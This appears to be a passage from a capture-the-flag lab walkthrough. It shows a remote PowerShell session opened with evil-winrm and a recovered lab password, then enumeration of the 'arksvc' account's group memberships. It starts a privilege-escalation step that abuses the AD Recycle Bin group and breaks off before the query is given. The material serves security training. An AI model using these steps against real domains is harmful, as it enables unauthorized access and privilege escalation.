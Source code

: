 

    root@kali# evil-winrm -u arksvc -p "w3lc0meFr31nd" -i 10.10.10.182

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\arksvc\Documents>



## Privesc: arksvc --\> administrator

### Enumeration

arksvc is also in some interesting groups:



    *Evil-WinRM* PS C:\> net user arksvc
    User name                    arksvc
    Full Name                    ArkSvc
    Comment
    User's comment
    Country code                 000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            1/9/2020 5:18:20 PM
    Password expires             Never
    Password changeable          1/9/2020 5:18:20 PM
    Password required            Yes
    User may change password     No

    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   3/30/2020 12:37:25 PM

    Logon hours allowed          All

    Local Group Memberships      *AD Recycle Bin       *IT
                                 *Remote Management Use
    Global Group memberships     *Domain Users
    The command completed successfully.



### AD Recycle

`AD Recycle Bin` is a well-know Windows group. [Active Directory Object
Recovery (or Recycle
Bin)](https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/)
is a feature added in Server 2008 to allow administrators to recover
deleted items just like the recycle bin does for files. The linked
article gives a PowerShell command to query all of the deleted objects
within a domain:
